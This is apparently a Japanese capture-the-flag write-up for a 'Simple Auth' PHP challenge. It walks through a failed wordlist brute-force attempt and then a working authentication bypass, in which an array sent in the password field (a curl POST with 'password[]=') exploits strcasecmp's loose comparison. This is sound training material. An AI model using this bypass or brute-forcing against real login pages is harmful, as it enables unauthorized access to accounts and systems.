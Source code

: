 自力解答ならず。  

### 間違い

```php
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

脆弱性はなさそう。仕方ないから総当たりでパスワードを当てにいくことにする。  

``John the Ripper``の開発元が公開しているありがちなパスワードリストをダウンロード。  

```bash
$ wget https://download.openwall.net/pub/wordlists/passwords/password.gz
$ gzip -d password.gz
```

パスワードを1つ1つ手打ちするのはだるいのでPythonにやらせる。  
準備として、PythonのHTTPライブラリ``requests``とHTMLパーサライブラリ``BeautifulSoup``をインストール。  

```bash
$ pip install requests BeautifulSoup4
```

実行。``strcasecmp()``は大文字小文字を区別しないからどれかはヒットするやろ。  

```bash
$ python3 crack.py password
...
failed...: FLAG_nite
failed...: FLAG_notused
failed...: FLAG_sss
YOU ARE A LOSER.
```

はい。  

### 正解

``strcasecmp($_POST['password'], $password) == 0``に静寂性がある。  
``strcasecmp()``と``strcmp()``は厳密な型チェックをしないため、引数に配列を渡せる。返り値は``NULL``。また、``===``ではなく``==``で比較しているため、ここではfalsyな値（``NULL``, ``false``, ``0``）はすべて同一扱いされる。  

```bash
# https://www.php.net/manual/ja/function.strcmp.php の User Contributed Notes より引用
If you rely on strcmp for safe string comparisons, both parameters must be strings, the result is otherwise extremely unpredictable.
For instance you may get an unexpected 0, or return values of NULL, -2, 2, 3 and -3.

strcmp("5", 5) => 0
strcmp("15", 0xf) => 0
strcmp(61529519452809720693702583126814, 61529519452809720000000000000000) => 0
strcmp(NULL, false) => 0
strcmp(NULL, "") => 0
strcmp(NULL, 0) => -1
strcmp(false, -1) => -2
strcmp("15", NULL) => 2
strcmp(NULL, "foo") => -3
strcmp("foo", NULL) => 3
strcmp("foo", false) => 3
strcmp("foo", 0) => 1
strcmp("foo", 5) => 1
strcmp("foo", array()) => NULL + PHP Warning # おい
strcmp("foo", new stdClass) => NULL + PHP Warning
strcmp(function(){}, "") => NULL + PHP Warning
```

具体的なクラック方法は、以下のようにしてパラメータを無理やり配列扱いさせる。値はなんでもいい。  

```bash
curl -X POST -d 'password[]=' https://ctfq.u1tramarine.blue/q32/auth.php
```

### 参考

- [strcasecmp | PHP マニュアル](https://www.php.net/manual/ja/function.strcasecmp.php)
- [スクレイピング・ハッキング・ラボ Pythonで自動化する未来型生活](https://nextpublishing.jp/book/12190.html)
- [クイックスタート | Requests](https://requests-docs-ja.readthedocs.io/en/latest/user/quickstart/)
- [Kali LinuxでJohn The Ripper,hydraによるパスワード解析 | Qiita](https://qiita.com/y-araki-qiita/items/cda417e49108eee1fb7b)
